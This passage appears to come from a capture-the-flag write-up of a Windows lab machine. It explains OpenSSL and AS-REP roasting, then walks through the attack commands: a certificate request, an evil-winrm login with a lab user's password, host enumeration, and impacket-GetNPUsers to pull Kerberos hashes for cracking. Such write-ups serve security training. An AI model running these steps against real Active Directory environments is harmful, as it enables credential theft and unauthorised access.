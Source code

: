 > **OpenSSL** is a very useful open-source command-line toolkit for working with **X.509 certificates**, **certificate signing requests** (**CSRs**), and **cryptographic keys**. If you are using a **UNIX** variant like Linux or macOS, **OpenSSL** is probably already installed on your computer. If you would like to use **OpenSSL** on Windows, you can enable Windows 10’s Linux subsystem or install **Cygwin**.

> **[AS-REP Roasting attack](https://www.picussecurity.com/resource/blog/as-rep-roasting-attack-explained-mitre-attack-t1558.004){:target="_blank"}**: If pre-authentication is disabled, the **DC** prematurely sends an **AS-REP** upon receiving an **AS-REQ**. This response includes sensitive data, with segments encrypted using the user's password hash. This vulnerability allows attackers to extract this encrypted data without initially providing any valid authentication details. Once obtained, attackers can perform offline brute-force or dictionary attacks to obtain the user's password.

> **Attacker Machine**:

```bash
# http://10.10.10.103/certsrv
# Request a certificate --> advanced certificate request

openssl req -newkey rsa:2048 -nodes -keyout amanda.key -out amanda.csr
ls amanda*
cat amanda.csr | xclip -sel clip

evil-winrm -S -c certnew.cer -k amanda.key -i 10.10.10.103 -u 'amanda' -p 'Ashare1972'
```

> **Victime Machine**:

```cmd
whoami
hostname
ipconfig

whoami /priv
whoami /all
netstat -ano
# TCP    0.0.0.0:88             0.0.0.0:0              LISTENING       612      Kerberos!
```

> **Attacker Machine**:

```bash
impacket-GetNPUsers --help
# Queries target domain for users with 'Do not require Kerberos preauthentication' set and export their TGTs for cracking
# target                [[domain/]username[:password]]
# -usersfile USERSFILE  File with user per line to test
# -no-pass              don't ask for password (useful for -k)

nvim users
cat users
impacket-GetNPUsers htb.local/ -no-pass -usersfile users
```

<br />
<img src="{{ site.img_path }}/sizzle_writeup/Sizzle_56.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sizzle_writeup/Sizzle_57.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sizzle_writeup/Sizzle_58.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sizzle_writeup/Sizzle_59.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sizzle_writeup/Sizzle_60.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />